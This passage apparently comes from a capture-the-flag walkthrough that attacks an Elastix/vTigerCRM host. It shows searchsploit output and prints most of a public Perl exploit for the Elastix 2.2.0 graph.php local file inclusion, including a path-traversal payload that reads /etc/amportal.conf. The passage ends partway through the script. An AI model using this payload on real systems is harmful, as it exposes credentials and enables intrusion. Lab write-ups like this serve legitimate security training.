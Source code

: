 What about VTigerCRM?
```
hippoeug@kali:~$ searchsploit vtigercrm
Exploits: No Results
Shellcodes: No Results
```
Nothing. Let's focus on Elastix exploits. Let's also try to get the version of Elastix being ran.
However, neither the landing page nor Gobuster/Dirbuster revealed the version of Elastix. Viewing Elastix page source on 443 didn't reveal the version either.

## 7. Attacking Elastix on Port 443
Using Burp to intercept a response from Elastix, we still do not find any version numbers. Let's just try using some of the exploits we saw from doing `searchsploit elastix`.

Trying the first one, `Elastix 2.2.0 - 'graph.php' Local File Inclusion | php/webapps/37637.pl`, we examine it first.
```
hippoeug@kali:~$ searchsploit -x 37637.pl
  Exploit: Elastix 2.2.0 - 'graph.php' Local File Inclusion
      URL: https://www.exploit-db.com/exploits/37637
     Path: /usr/share/exploitdb/exploits/php/webapps/37637.pl
File Type: ASCII text, with CRLF line terminators

source: https://www.securityfocus.com/bid/55078/info
Elastix is prone to a local file-include vulnerability because it fails to properly sanitize user-supplied input.
An attacker can exploit this vulnerability to view files and execute local scripts in the context of the web server process. This may aid in further attacks.
Elastix 2.2.0 is vulnerable; other versions may also be affected. 

#!/usr/bin/perl -w

#------------------------------------------------------------------------------------# 
#Elastix is an Open Source Sofware to establish Unified Communications. 
#About this concept, Elastix goal is to incorporate all the communication alternatives,
#available at an enterprise level, into a unique solution.
#------------------------------------------------------------------------------------#
############################################################
# Exploit Title: Elastix 2.2.0 LFI
# Google Dork: :(
# Author: cheki
# Version:Elastix 2.2.0
# Tested on: multiple
# CVE : notyet
# romanc-_-eyes ;) 
# Discovered by romanc-_-eyes
# vendor http://www.elastix.org/

print "\t Elastix 2.2.0 LFI Exploit \n";
print "\t code author cheki   \n";
print "\t 0day Elastix 2.2.0  \n";
print "\t email: anonymous17hacker{}gmail.com \n";

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

use LWP::UserAgent;
print "\n Target: https://ip ";
chomp(my $target=<STDIN>);
$dir="vtigercrm";
$poc="current_language";
$etc="etc";
$jump="../../../../../../../..//";
$test="amportal.conf%00";
```